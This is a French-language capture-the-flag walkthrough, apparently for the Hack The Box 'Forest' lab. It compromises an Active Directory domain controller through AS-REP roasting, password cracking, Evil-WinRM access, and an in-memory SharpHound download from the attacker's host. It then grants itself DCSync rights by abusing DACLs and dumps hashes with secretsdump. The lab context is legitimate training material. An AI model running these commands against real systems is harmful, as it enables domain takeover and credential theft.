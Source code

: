 ![Pic1](../img/forest1.PNG?raw=true) </br>

# Introduction

Forest est une machine linux dont l'adresse IP est 10.10.10.161.</br>
Compétences mises en oeuvre :
* Enumération des ports et services d'une machine distante.
* 
</br>

# Enumération initiale
Nous commençons par l'énumération des services et ports de la box avec nmap :
```bash
$ nmap -T4 -A 10.10.10.161
```
![Pic2](../img/forest2.PNG?raw=true) </br>
Plusieurs ports ouverts, on peut déjà tenter une énumération des dossiers partagés par SMB :
```bash
$ smbmap -H 10.10.10.161
```
![Pic3](../img/forest3.PNG?raw=true) </br>
Aucun partage dispo.</br>
On peut faire une énumération RPC avec rpcclient :
```bash
$ rpcclient -U "" -N 10.10.10.161
rpcclient > enumdomusers
```
![Pic4](../img/forest4.PNG?raw=true) </br>
![Pic5](../img/forest5.PNG?raw=true) </br>

# Obtenir un accès utilisateur
En ayant la liste des utilisateurs, nous pouvons tenter d'obtenir un ticket Kerberos pour chacun, cela fonctionnera que pour le compte
svc-alfresco :
```bash
$ GetNPUsers -no-pass -dc-ip 10.10.10.161 htb/svc-alfresco
```
![Pic6](../img/forest6.PNG?raw=true) </br>

Nous pouvons le cracker avec john :
```bash
$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
![Pic7](../img/forest7.PNG?raw=true) </br>
Nous pouvons alors nous connecter via le port 5985 avec Evil-WinRM et lire le user.txt :
```bash
$ evil-winrm -i 10.10.10.161 -u "svc-alfresco" -p "s3rvice"
> cat ../Desktop/user.txt
```
![Pic8](../img/forest8.PNG?raw=true) </br>

# Obtenir un accès administrateur
Nous allons utiliser l'outil Bloodhound, pour ce faire, il faut :
* Upload SharpHound sur la box et l'éxécuter.
* Envoyé le résultat de SharpHound vers l'attaquant.
* Charger le résultat dans Bloodhound.
* Analyser le résultat pour voir l'exploit.
* Exploitation.

## Upload SharpHound sur la box et l'éxécuter
Coté attaquant :
```bash
$ cp /opt/bloodhound/Collectors/SharpHound.ps1 ./
$ python3 -m http.server
```
Coté box :
```bash
> cd C:\Users\svc-alfresco\appdata\local\temp
> iex(new-object net.webclient).downloadstring("http://10.10.14.34:8000/SharpHound.ps1")
> dir
```
![Pic9](../img/forest9.PNG?raw=true) </br>
Nous pouvons voir le fichier 20201124130216_BloodHound.zip qui contient le résultat des données récoltées par SharpHound.

## Envoyé le résultat de SharpHound vers l'attaquant
Coté attaquant :
```bash
$ smbserver.py share . -smb2support -username df -password df
```
![Pic10](../img/forest11.PNG?raw=true) </br>
Coté box :
```bash
> net use \\10.10.14.34\share /u:df df
> copy 20201124130216_BloodHound.zip \\10.10.14.34\share\
> del 20201124130216_BloodHound.zip
> net use /d \\10.10.14.34\share
```
![Pic11](../img/forest10.PNG?raw=true) </br>

## Charger le résultat dans Bloodhound
On lance neo4j et bloodhound :
```bash
$ neo4j console
$ bloodhound
```
</br>
Maintenant nous importons les données dans bloodhound :</br>

![Pic12](../img/forest12.PNG?raw=true) </br>
Une fois finit, on va faire une recherche pour trouver le chemin le plus court vers l'administrateur du domaine :</br>

![Pic13](../img/forest13.PNG?raw=true) </br>
Nous avons alors un résultat graphique très sympa :</br>

![Pic14](../img/forest14.PNG?raw=true) </br>
Il faut savoir, que sur chaque arête se trouve un élément (Member of / contain / Genericall ..) et si on clique droit sur cet élément
et que l'on clique sur Help, Bloodhound nous donne un descriptif très complet. Dans notre cas, on a GenericAll et WriteDacl qui, dans l'help, ont une rubrique "Abuse Info" pour 
expliquer en détail comment exploiter l'élément.

## Analyser le résultat pour voir l'exploit
En visualisant le graphique, on peut voir qu'il faudra deux jumps pour accéder à l'Administrateur depuis 
svc-alfresco. Notre utilisateur étant déjà dans le groupe Privileged IT Account, qui lui même est dans le groupe Account Operators, qui ce dernier,
si on clique sur le nom de son arête "GenericAll" nous permet de voir que ce groupe a tous les pouvoirs sur Exchange Windows Permissions. Donc il nous faudra ajouter notre compte
dans le groupe, puis à partir de ce moment là, le groupe Exchange Windows Permissions a les permissions de modifier le DACL (Discretionary Access Control List), donc nous pourrons
nous donner le privilège DcSync dans le but de dump le hash de l'admin.</br>
En résumer :
* On se rajoute dans le groupe Exchange Windows Permissions (via commande powershell).
* On se donne le privilège DcSync (via commande powershell).
* On fait un dump du hash admin (via mimikatz ou secretdump.py).

## Exploitation
L'exploitation doit se faire rapidement, sinon nous perdons les groupes acquis. Donc un One-Liner powershell est fait içi, je reprend simplement les commandes expliquées dans
bloodhound :
```bash
Evil-winRM > Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco;
 $username = "htb\svc-alfresco"; $password = "s3rvice"; 
 $secstr = New-Object -TypeName System.Security.SecureString; 
 $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; 
 $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; 
 Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```
```bash
$ secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```
![Pic15](../img/forest15.PNG?raw=true) </br>